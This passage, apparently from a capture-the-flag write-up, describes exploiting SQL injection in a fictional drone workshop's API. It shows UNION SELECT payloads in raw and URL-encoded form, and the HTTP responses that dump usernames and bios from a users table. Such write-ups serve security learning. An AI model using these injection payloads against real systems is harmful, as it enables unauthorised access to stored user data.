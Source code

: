 Playing more with the SQLi I used to find the extra drone names, I realized it was playing nice with `UNION` injections:

```http
Zapper' UNION SELECT 1,1,1; /*

GET /api/v1.0/drones?drone=Zapper'%20UNION%20SELECT%201%2c1%2c1%3b%20%2f* HTTP/2
```

```http
HTTP/2 200 OK
...omitted for brevity...

[{"name":1,"quantity":1,"weapons":1},{"name":"Zapper","quantity":"5","weapons":"CarrotSpike"}]
```

The row of `1` values showed I was successfully injecting data into the query. After that, I used a payload of `Zapper' UNION SELECT 1,1,1 FROM <table>; /*` to poke around until I found the `users` table. Fun tables like `sqlite_schema` were not available, even though `sqlite_version()` revealed it was, indeed, SQLite.

Looking at the source of the `profile` page, it implied that there was at least a `username` field and a `bio` field, which I used to extract a list of all the users:

```http
Zapper' UNION SELECT username, bio,1 from users; /*

GET /api/v1.0/drones?drone=Zapper'%20UNION%20SELECT%20username%2cbio%2c1%20from%20users%3b%20%2f* HTTP/2
```

Result:

```http
HTTP/2 200 OK
...omitted for brevity...

[{"name":"Zapper","quantity":"5","weapons":"CarrotSpike"},{"name":"brynne","quantity":"Brynne is the workshops master of drone aesthetics, bedazzling every flying machine with shimmering gemstones and enchanted paints.\nShe believes every drone deserves a touch of flair\u2014because who says utility ca not be stylish?","weapons":1},{"name":"filo","quantity":"Filo insists the best drones are the ones that can sneak up on you, which is why he specializes in crafting silent, stealthy models. \nHe is always got a mischievous grin, especially when his latest creation flies circles around you before you notice!","weapons":1},{"name":"fritjolf","quantity":"Secret project is underway, we need to produce as many as possible for Wombley.","weapons":1},{"name":"lira","quantity":"Liras light touch and nimble fingers can assemble a drone in the blink of an eye, sometimes before you even realize she has started.\nShe swears each one has a bit of her own magic, which might explain why they always seem to hum a little tune.","weapons":1},{"name":"pip","quantity":"Pip is a master of drone delivery, programming routes with such precision that packages arrive exactly on the second they are expected. \nHe has a large collection of flags, impressive!","weapons":1},{"name":"sprigg","quantity":"Sprigg loves nothing more than the hum of a well-oiled drone and the smell of enchanted gears.\nWhen he is not tinkering, he is dreaming up new ways to make drones faster, shinier, and maybe even capable of brewing tea!","weapons":1},{"name":"tylwen","quantity":"Tylwen is the drone workshops resident perfectionist, spending hours polishing every cog and checking each spell-infused circuit. \nShe insists that drones can be practical and pristine, and she wo not let one leave her station without a flawless gleam.","weapons":1}]
```
